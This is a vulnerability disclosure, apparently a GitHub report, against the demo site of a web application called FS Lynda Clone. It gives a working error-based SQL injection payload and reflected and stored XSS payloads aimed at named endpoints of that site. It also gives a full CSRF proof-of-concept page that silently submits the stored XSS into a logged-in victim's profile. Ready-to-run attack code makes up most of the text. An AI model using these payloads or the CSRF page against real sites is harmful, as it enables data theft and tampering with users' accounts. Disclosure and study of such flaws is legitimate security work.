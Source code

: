 ### FS Lynda Clone- the lastest version - SQL Injection/XSS/CSRF

Well,  when I pentest the official demo site of FS Lynda Clone, I found some vulnerabilities here.


#### SQL Injection:

As you can see here, we can obtain the current database user or more sensitive data now!
For example:
```
http://lynda-clone.demonstration.co.in/tutorial/

POST para and poc:
keywords=123' AND (SELECT 3835 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(3835=3835,1))),0x7171706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'sYtx' LIKE 'sYtx
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/sqli.png)


#### XSS:

Here I found some xss, inclue stored-xss and reflect-xss：

##### Reflect-Xss
```
http://lynda-clone.demonstration.co.in/tutorial/

POST：
keywords=123'"><svg/onload=alert(/XSS/)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss1.png)

##### Stored-Xss

It's the user panel here, some fields suffer this bug.
```
http://lynda-clone.demonstration.co.in/user/edit_profile

POST parameters:
Jhon'"><svg/onload=alert(/xss/)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss3.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss4.png)

By the way , these xss vulnerabilitys need to be combined with csrf attack.

#### CSRF
There is no csrf protection here.
For example , with the aforementioned stored-xss , we can cheat the user to visit an evil page on our site。
Then the user will add a evil content to his user panel, and know nothing about the attack.

```
<html>
   <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/lynda-clone.demonstration.co.in\/user\/edit_profile", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryTbB3nj532aSAuKxi");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_first_name\"\r\n" + 
          "\r\n" + 
          "Jhon\'\"\x3e\x3csvg/onload=alert(/xss/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_last_name\"\r\n" + 
          "\r\n" + 
          "Doe\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_email\"\r\n" + 
          "\r\n" + 
          "user@yourmail.com\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_mobile\"\r\n" + 
          "\r\n" + 
          "9871452630\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_country\"\r\n" + 
          "\r\n" + 
          "India\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_photo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_photo_name\"\r\n" + 
          "\r\n" + 
          "20170802141220498.jpg\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_about\"\r\n" + 
          "\r\n" + 
          "Maecenas accumsan, massa nec vulputate congue, dolor erat ullamcorper dolor, ac aliquam eros sem in dui. In eu sagittis metus. Proin consectetur suscipit dui sed euismod. Nam non metus in est vehicula vestibulum et vel neque. Mauris scelerisque lectus at diam pretium, eget fringilla erat sollicitudin.Pellentesque quis pharetra tellus. Donec interdum nisi at sem ornare, ut congue felis eleifend. Nam elementum nec leo eget pharetra. Quisque consectetur porta erat sit amet fermentum.\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social1\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social2\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social3\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social4\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_testimonial\"\r\n" + 
          "\r\n" + 
          "Cras dapibus. Vivamus elementum semper nisi. Aenean vulputate eleifend tellus. Aenean leo ligula, porttitor eu, consequat vitae, eleifend ac, enim. Aliquam lorem ante, dapibus in, viverra quis, feugiat a, tellus. Phasellus viverra nulla ut metus varius laoreet. \r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile\"\r\n" + 
          "\r\n" + 
          "Update\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```










